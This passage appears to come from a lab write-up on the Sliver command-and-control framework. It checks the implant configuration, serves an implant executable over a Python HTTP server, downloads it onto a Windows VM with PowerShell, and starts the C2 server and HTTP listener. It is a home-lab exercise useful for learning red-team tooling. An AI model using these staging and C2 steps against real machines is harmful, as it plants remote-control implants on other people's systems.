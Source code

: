 And confirm the new implants configuration 
```
implants
```

![Pasted image 20240816135501](attachments/Pasted%20image%2020240816135501.png)

Now, as we've got our payload that we're going to drop into our Windows VM - we can do that. 

To upload our payload - we'll set up an http server on port 80 with the following command: 

```
python3 -m http.server 80
```

Now we can download the file from our VM with the following command in PowerShell: 

```
IWR -Uri http://192.168.88.133/TALL_EYEBROWS.exe -Outfile C:\Users\User\Downloads\TALL_EYEBROWS.exe
```

![Pasted image 20240816140306](attachments/Pasted%20image%2020240816140306.png)

![Pasted image 20240816140316](attachments/Pasted%20image%2020240816140316.png)


## Starting Command & Control session

To launch our C2 we start sliver server again:
```
sliver-server
```
And start http listener: 
```
http
```
![Pasted image 20240816140832](attachments/Pasted%20image%2020240816140832.png)
